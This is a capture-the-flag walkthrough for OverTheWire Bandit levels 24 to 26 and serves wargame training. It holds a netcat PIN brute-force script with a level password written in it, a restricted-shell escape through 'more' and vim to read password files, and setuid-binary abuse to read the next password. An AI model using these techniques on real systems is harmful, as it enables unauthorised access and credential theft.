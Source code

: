 ### [Bandit 24]
`ssh bandit24@bandit.labs.overthewire.org -p 2220` \ 
We are told that we will get the new flag if we connect to port 30002 and send the current flag and a 4-digit pin. Also, the only way to get the pin is to try all the combinations. \
What we do is create a file in our /tmp folder that contains all the 'flag PIN' combinations, one per line. We can then cat it and pipe the output to a netcat connection. That is enough to have all the lines submitted one by one until we find the correct pin giving the new flag.

```bash
mkdir /tmp/olaola
cd /tmp/olaola
nano b25.sh
    > #!/bin/bash
    > for a in {0000..9999}
    > do
    >    echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $a" >> pins
    > done
    > cat pins | nc localhost 30002
chomd +x b25.sh
./b25.sh
```

### [Bandit 25]
`ssh bandit25@bandit.labs.overthewire.org -p 2220` \ 
Although we are provided with the ssh key, trying to access bandit26 kicks us out immediately. We are told that bandit26 uses a non standard shell, so we look into that: the `/etc/passwd` file contains a bunch of information, among which user name, user home directory and login shell for every user on that machine. Given that all the bandits are on the same machine, we cat the file and grep for bandit26, looking for that last bit of information. \
We now know where the shell is located, and we cat for that too to see what is going on in there: the only command invoked is more, and the way to exploit it (thanks Google) is to make the shell so small that upon ssh connection the script will be shown basically line by line. This allows to pass commands to the 'more' screen, and we can enter vim with the 'v' instruction. From vim, we use the ':e' instruction to see the password file.

```bash
cat /etc/passwd | grep bandit26
cat /usr/bin/showtext
# ssh into bandit26 with the terminal window as small as possible
v
:e /etc/bandit_pass/bandit26 
# to insert commands in vim, first press esc
```

### [Bandit 26]
`ssh bandit26@bandit.labs.overthewire.org -p 2220` \ 
To get access to bandit26 use the same approach as the last challenge. When we are in vim, it's time to get a shell. Vim does have a 'shell' command, but it takes us back to the non-default one. However, we can tell it to use our own shell with ``:set shell=/bin/sh` and then calling `:shell`. \
Now that we have a shell we see that there is an executable suid file, and we cat the flag with it.

```bash
[ssh into bandit26 with the terminal window as small as possible]
v
:set shell=/bin/sh [to insert commands in vim, first press esc]
:shell
ls -lah
file bandit27-do
./bandit27-do cat /etc/bandit_pass/bandit27
```
